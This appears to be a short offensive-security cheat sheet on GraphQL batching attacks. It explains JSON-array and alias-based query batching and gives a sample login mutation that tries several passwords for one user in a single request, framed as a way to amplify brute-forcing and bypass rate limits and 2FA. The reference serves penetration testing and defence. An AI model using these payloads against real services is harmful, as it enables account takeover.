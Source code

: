 
### GraphQL Batching Attacks

Common scenario:
* Password Brute-force Amplification Scenario
* Rate Limit bypass
* 2FA bypassing


#### JSON list based batching

> Query batching is a feature of GraphQL that allows multiple queries to be sent to the server in a single HTTP request. Instead of sending each query in a separate request, the client can send an array of queries in a single POST request to the GraphQL server. This reduces the number of HTTP requests and can improve the performance of the application.

Query batching works by defining an array of operations in the request body. Each operation can have its own query, variables, and operation name. The server processes each operation in the array and returns an array of responses, one for each query in the batch.

```json
[
    {
        "query":"..."
    },{
        "query":"..."
    }
    ,{
        "query":"..."
    }
    ,{
        "query":"..."
    }
    ...
]
```


#### Query name based batching

```json
{
    "query": "query { qname: Query { field1 } qname1: Query { field1 } }"
}
```

Send the same mutation several times using aliases

```js
mutation {
  login(pass: 1111, username: "bob")
  second: login(pass: 2222, username: "bob")
  third: login(pass: 3333, username: "bob")
  fourth: login(pass: 4444, username: "bob")
}
```
